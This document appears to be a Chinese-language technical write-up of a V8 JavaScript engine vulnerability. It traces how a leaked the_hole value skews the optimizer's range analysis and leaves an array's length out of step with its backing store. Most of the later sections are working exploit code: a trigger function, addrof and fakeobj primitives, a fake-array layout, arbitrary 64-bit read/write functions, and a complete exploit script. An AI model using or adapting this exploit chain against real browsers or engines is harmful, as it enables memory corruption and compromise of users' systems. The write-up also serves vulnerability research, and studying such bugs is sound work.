
图：上方是优化器推断出来的值域，下方是真实执行时可能拿到的值域；分歧最终集中在 idx 上。
为什么能继续走到 OOB¶
先看最后实际发生写入的目标对象：
这里的 arr 初始容量很小，只有 8 个元素；而 arr[0] = 13.37 的作用，是把它先稳定到一个适合后面利用的 double elements 形态。正常情况下，如果后面真的去写一个很大的索引，比如 arr[200] = 13.37，引擎应该先扩容 backing store，再同步更新 length。也就是说，扩容和 length 更新本来应该是一套一致的动作。
问题就在这里：优化器推断出来的 idx 是一个固定的大值，所以和 length 更新相关的那部分逻辑会沿着“大索引写入”这条路继续传播，甚至被进一步常量折叠；但真实执行时，idx 又不一定真是那个大值，它还可能回落到 0。这样一来，运行时真正发生的写入路径，和优化阶段预设的 length 更新路径，就不再是同一套东西了。
可以把它理解成下面这两套同时存在的逻辑：
优化器眼里的逻辑
idx恒等于 200- 所以后续 length 应该变成 201
- 与索引相关的部分可以继续按常量折叠和简化
真实执行时的逻辑
idx实际可能等于 0- 写入本身并不需要扩容
- 但 length 更新逻辑却已经沿着“常量大索引”的方向被固定下来了
在公开旧版链路里，最后就会出现一个很经典的结果：数组看起来 length 已经被放大了，但底层 backing store 其实并没有一起变大。这就是典型的 length / capacity 不一致。对 JS 层来说，后面再去访问这个数组，会以为自己能访问一个很大的索引范围；但底层真实可用的那块内存其实远没有那么大，于是就会表现为 OOB。

图：关键点不在于 B29 / B30 的名字，而在于 merge 之后那条固定下来的 length 更新仍然会执行。
如果把这里的 IR 状态再压缩一下，其实可以理解成下面这几步：
BLOCK B28:
cmp index, length (index < capacity?)
Branch -> [B30 (true), B29 (false)]
BLOCK B29: // index 超过 capacity，需要扩容
Call GrowFastElements
Goto B31
BLOCK B30: // index 还没超过 capacity，跳过扩容
Goto B31
MERGE B31:
Store *(#arr + 12) = #Constant(101) // length = 101
Store element
Return
真实执行流其实是这样的：
- 实际
index = 0 capacity = 8- 条件
index < capacity成立 - 所以会走进
B30 - 这条路径上不会执行扩容
- 但控制流合并到
B31之后，仍然执行了Store *(arr + 12) = 101
也就是说，真实运行时数组并没有扩容，但 merge 后那条已经被固定下来的 length 更新仍然执行了，最后就把 length 改大了。这也是这里会出现 length / capacity 不一致的直接原因。
原语构建¶
到 OOB 这一步，其实才刚刚够到“可以开始利用”的门槛，先用 corrupted 这个越界 double array 去打旁边的 victim_arr 对象数组，把数组越界先变成对象原语，也就是先做出 addrof 和 fakeobj。
let [corrupted, victim_arr] = pwn(true,true);
function addrof(obj) {
victim_arr[0] = obj;
return common.ftoih(corrupted[14]);
}
function fakeobj(addr) {
common.set_l(1);
common.set_h(addr);
corrupted[14] = common.get_f64();
return victim_arr[0];
}

图：addrof 和 fakeobj 的核心都是把同一块内存一边当 double 看，一边当对象槽位看。
addrof() 这里很好理解，就是先把对象塞进 victim_arr[0]，再从 corrupted[14] 那个越界位置把这个槽位偷读出来。fakeobj() 则反过来，把准备好的地址表示写回 corrupted[14]，再从 victim_arr[0] 按对象去取。走到这一步，OOB 就已经不是单纯“能读到数组外面的值”了，而是变成了可以控制对象槽位表示的对象利用原语。
任意读写构建¶
有了 addrof 和 fakeobj 之后，后面的事其实就是拼 fake array。只要能把这个 fake array 的头布置对，后面就能把 fake_arr[0] 变成一个可控的读写窗口。
let arr1 = [
common.pair_i32_to_f64(0x0004ceed, 0x000007bd),
common.pair_i32_to_f64(0, 0x00008000)
];
let arr1_addr = addrof(arr1);
let arr1_elements = (arr1_addr + 0x1c) >>> 0;
arr1[1] = common.pair_i32_to_f64(arr1_elements, 0x00008000);
let fake_arr = fakeobj((arr1_addr + 0x24) >>> 0);
这里的关键就是，arr1 不再是普通数组了，而是用于存放 fake array 布局的一块内存。先用 addrof(arr1) 拿到它的地址，再把 arr1 内部对应位置补成一个自洽的 fake array 头，最后从 arr1_addr + 0x24 这个偏移开始把它解释成 fake_arr。

图：arr1 不再只是一段普通数组数据，而是被当成 fake array 头和 fake elements 指针的承载区。
再往下看任意读写函数：
function ArbRead64(addr){ //int32
arr1[1]=common.pair_i32_to_f64((addr - 0x8) >>> 0,0x00000725);
return common.f64toi64(fake_arr[0]);
}
function ArbWrite64(addr,value){ //int32 Bigint
arr1[1]=common.pair_i32_to_f64((addr - 0x8) >>> 0,0x00000725);
fake_arr[0]=common.i64tof64(value);
return true;
}
这里其实就是把 arr1[1] 当成调参位，用它去改 fake array 头里的关键字段，让 fake_arr[0] 最终指到我们想读写的地址。这样 ArbRead64(addr) 和 ArbWrite64(addr, value) 就很好理解了，本质上都是先改目标地址，再借 fake_arr[0] 完成那次读或者写；这时候 fake_arr 已经不再像普通数组，更像一扇被我们拿来转发任意地址访问的窗口。

图：不断重写 arr1[1]，本质上就是在重定向 fake_arr[0] 最终读写到哪里。
完整利用代码¶
class Common {
constructor() {
this.buf = new ArrayBuffer(8);
this.dv = new DataView(this.buf);
this.u8 = new Uint8Array(this.buf);
this.u32 = new Uint32Array(this.buf);
this.u64 = new BigUint64Array(this.buf);
this.f32 = new Float32Array(this.buf);
this.f64 = new Float64Array(this.buf);
this.roots = new Array(0x30000);
this.index = 0;
}
pair_i32_to_f64(p1, p2) {
this.u32[0] = p1 >>> 0;
this.u32[1] = p2 >>> 0;
return this.f64[0];
}
i64tof64(i) {
this.u64[0] = BigInt(i);
return this.f64[0];
}
f64toi64(f) {
this.f64[0] = f;
return this.u64[0];
}
set_i64(i) {
this.u64[0] = BigInt(i);
}
set_l(i) {
this.u32[0] = i >>> 0;
}
set_h(i) {
this.u32[1] = i >>> 0;
}
get_f64() {
return this.f64[0];
}
get_i64() {
return this.u64[0];
}
ftoil(f) {
this.f64[0] = f;
return this.u32[0];
}
ftoih(f) {
this.f64[0] = f;
return this.u32[1];
}
add_ref(object) {
this.roots[this.index++] = object;
}
mark_sweep_gc() {
new ArrayBuffer(0x7fe00000);
}
scavenge_gc() {
for (let i = 0; i < 8; i++) {
this.add_ref(new ArrayBuffer(0x200000));
}
this.add_ref(new ArrayBuffer(8));
}
}
const common = new Common();
common.mark_sweep_gc();
common.mark_sweep_gc();
function pwn(trigger, cond) {
var hole;
{
target: switch (1) {
case 1:
do {
if (cond) break target;
} while ((x = 1) && false);
break;
default:
x = 1;
}
hole = x;
let x;
}
let o = {};
o.s = trigger ? hole : "not the hole";
var s = 2 - (Math.sign(o.s.length) + 1);
var i = 2 * ((5 - (s + 4)) >> 1) + 2;
let idx = i * 200;
let arr = new Array(8);
let victim_arr = [{}];
arr[0] = 13.37;
arr[idx] = 13.37;
return [arr, victim_arr];
}
%PrepareFunctionForOptimization(pwn);
pwn(false, true);
%OptimizeFunctionOnNextCall(pwn);
let [corrupted, victim_arr] = pwn(true, true);
function addrof(obj) {
victim_arr[0] = obj;
return common.ftoih(corrupted[14]);
}
function fakeobj(addr, keep_len = 1) {
common.set_l(keep_len >>> 0); // victim_arr.elements.length
common.set_h(addr >>> 0); // victim_arr.elements[0]
corrupted[14] = common.get_f64();
return victim_arr[0];
}
// let arr1 = [
// common.pair_i32_to_f64(0x0004ccf5, 0x00000725),
// common.pair_i32_to_f64(0x00000725, 0x00008000)
// ];
// let arr1_addr = addrof(arr1);
// let fake_arr = fakeobj((arr1_addr + 0x24) >>> 0);
let arr1 = [
common.pair_i32_to_f64(0x0004ceed, 0x000007bd),
common.pair_i32_to_f64(0, 0x00008000)
];
let arr1_addr = addrof(arr1);
let arr1_elements = (arr1_addr + 0x1c) >>> 0;
// 初始化成自洽 fake array 头
arr1[1] = common.pair_i32_to_f64(arr1_elements, 0x00008000);
let fake_arr = fakeobj((arr1_addr + 0x24) >>> 0);
%DebugPrint(arr1);
%DebugPrint(fake_arr);
console.log("arr1_addr =", arr1_addr.toString(16));
console.log("fake_target =", ((arr1_addr + 0x24) >>> 0).toString(16));
console.log(
"corrupted[14] low/high =",
common.ftoil(corrupted[14]).toString(16),
common.ftoih(corrupted[14]).toString(16)
);
function ArbRead64(addr) {
if (fake_arr === null) throw new Error("fake_arr is null");
arr1[1] = common.pair_i32_to_f64(((addr - 0x8 ) >>> 0), 0x00000725);
return common.f64toi64(fake_arr[0]);
}
function ArbWrite64(addr, value) {
arr1[1] = common.pair_i32_to_f64(((addr - 0x8 ) >>> 0), 0x00000725);
fake_arr[0] = common.i64tof64(value);
return true;
}
let ex1 = addrof(arr1);
console.log(ArbRead64(ex1).toString(16));
小结¶
整条链可以压成一句话：break 路径上的 hole-check 状态没有被正确并进 merge，导致 the_hole 被直接带到后续 use 点；如果实验版本仍然沿用旧版 Hole 布局，那么在利用链里，这个 hole 还可以继续被放大成范围分析失真、OOB，以及后面的 addrof / fakeobj / 任意地址读写原语。